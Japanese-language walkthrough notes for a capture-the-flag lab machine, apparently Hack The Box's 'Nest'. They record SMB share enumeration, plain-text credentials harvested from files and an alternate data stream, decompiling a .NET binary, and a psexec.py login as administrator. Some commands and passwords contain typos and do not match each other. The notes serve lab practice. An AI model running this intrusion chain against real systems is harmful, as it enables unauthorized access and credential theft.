 - nmap
	- 445 microsoft-ds
	- 4386 unknown

> \- -min-rate \<number> 1秒あたりに送信するプローブの最小値

- 4386の調査
 - telnetで接続
 ```
 telnet  10.10.10.178 4386
 HQK Reporting Service V1.2
>help
```
 >setdir ディレクトリの移動
 >list　一覧表示

- 445の調査
```
smbmap -H 10.10.10.178 -u null
```
- User,DataがREAD ONLYになっている
- Usersにアクセス
```
smbclient -N //10.10.10.178/users
```
アクセスできるファイルがない
- Dataにアクセス
```
smbclient -N //10.10.10.178/data
smb:\>recurse ON
smb:\>prompt OFF
smb:\>mget *
```
Alerts.txtとEmail.txtが取得できる   
Alerts.txtは役に立たない   
Email.txtにユーザー名とパスワードがある
- smbmapで再接続
```
smbmap -H 10.10.10.178 -u TempUser -p welcom2019
```
- Secure$にアクセスできるようになる
```
smbclietn -U TempUser //10.10.10.178/Secure$ welcome2019
```
役に立つ情報がない
- Usersにアクセス
```
smbclient -U TmepUser //10.10.10.178/users welcom2019
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```
Document.txtが取得できる
- Dataにアクセス
```
smbclient -U TempUser //10.10.10.178/data welcome2019
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
```
ファイルがいくつか取得できる   
- RU_config.xmlファイルにパスワードが記載されている
- Notepad++の設定ファイルの最後に履歴を見るとパスが書かれている
- Secure\$\\ITにはアクセスできないがSecure$\\IT\\CarlにはアクセスできることがNotepad++の設定ファイルからわかる
- ここからも再帰的にファイルを引っ張っていくる
- 取得したファイルはVisual Studioのファイル
- ハッシュをdnspyで解析するか[dotnetfilddle](https://dotnetfiddle.net/)で解析する
- smbに再アクセス
```
crackmapexec smb 10.10.10.178 -u C.Smith -p xRxRxPANCAK3SxRxRx
```
- Users/C.Smithにアクセスしuser.txtを取得
- Backupファイル以外は0kbになっている
```
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt"
```
allinfoコマンドを使うと違う結果が出てくる
- getコマンドで取得
```
get "Debug Mode Password.txt:Password"
```
```
cat Debug\ Mode\ Password.txt\:Password 
WBQ201953D8w
```
- telnetで再接続
```
rlwrap telnet 10.10.10.178 4386
>debug WBQ201953D8w
>help
>list
>showquery 1
```
ひとつ上のディレクトリ実行可能ファイルがある
- HqkLdap.exeを解析
- fileコマンドからPE32であることがわかる
- dnSpy-86をdnspyで開く
- 解読したファイルからパスワード取得
- 取得したパスワードを使用してpsexec.pyでログイン
```
rlwrap psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
```
- フラグ取得
